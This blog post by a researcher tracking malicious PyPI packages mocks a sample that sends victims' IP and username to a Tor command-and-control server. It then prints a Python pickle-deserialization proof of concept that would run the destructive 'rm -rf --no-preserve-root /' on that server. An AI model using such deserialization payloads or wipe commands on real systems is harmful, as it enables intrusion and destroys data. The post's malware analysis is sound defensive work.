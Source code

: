 ```yaml
---
title: The stupidity of malware authors
date: '2023-4-24'
---
```


I've recently been helping track threat actors that upload malware
to the PYPI package index (stuff that you can pip install).

Here's a collection of stupidity

---

## Tor Shenanigans

People think that when you put something behind tor it's really secure, super
hidden and impossible to find. This sample, however, proves the opposite.

![tor shenanigans](/i/more_malware_tor.png)

I've deleted most of the boilerplate but in essence all it does is make a
socket connection to the onion service by setting it as a socks proxy.

It then sends your ip address ('grabbed' from httpbin[.]com), username, etc
with the `send_data function`. Some people will see the glaring issue right
away but for those who haven't used python extensively, the `pickle.loads`
function is vulnerable arbitrary python code execution. Here is a really 
simple PoC to pwn the c2 server:

```py
# please don't actually run this :(
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('rm -rf --no-preserve-root /')
        return os.system, (cmd,)

def send_data(conn, data):
    data = pickle.dumps(data)
    data_len_str = str(len(data))
    header = '0' * (64 - len(data_len_str)) + data_len_str

    conn.send(header.encode())
    conn.send(data)

c2_link = 'zuela32n363gucsyr5z4w635pmthnq4lsxod43r3yapu4vddn5qwcpad[.]onion' # i've defanged this
c2_port = 1337

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    s = socket.socket(c2_link, c2_port) # yes, I know this doesn't work it's just pseudocode
    send_data(s, pickled)
```

Running this code sample would execute the `rm -rf --no-preserve-root /` command
on the remote server, wiping all files and folders from the system. We could also
deanonymise the server by having it call back to us. However, I'll leave that as
as exercise for the reader. 

**SERIOUS DISCLAMER: fr doe don't actually do bad things with this, no matter 
who it is**
